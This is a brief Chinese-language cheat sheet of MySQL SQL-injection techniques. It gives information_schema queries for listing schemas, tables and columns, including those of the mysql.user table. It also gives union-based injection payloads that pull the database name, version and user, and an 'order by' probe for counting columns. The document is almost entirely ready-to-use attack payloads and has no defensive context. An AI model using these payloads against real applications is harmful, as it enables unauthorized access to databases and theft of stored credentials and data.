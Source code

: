 ## 	查表三部曲

### 		1. 查找库名

```mysql
select distinct table_schema from information_schema.tables;
select distinct table_schema from information_schema.columns;
```

### 		2. 查找表名

```mysql
select table_name from information_schema.tables where table_schema='mysql';
select distinct table_name from information_schema.columns where table_schema='mysql';
```

### 		3. 查找字段名

```mysql
select column_name from information_schema.columns where table_schema='mysql' and table_name='user';
```

## 	union 注入

```mysql
'' or 1=1 union select 1,2,3 from <schema>.<tables> where 1='1'
'' union select 1,database(),version(),user() --''
```

## 快速查找字段数

```mysql
'1' order by 15 #
```
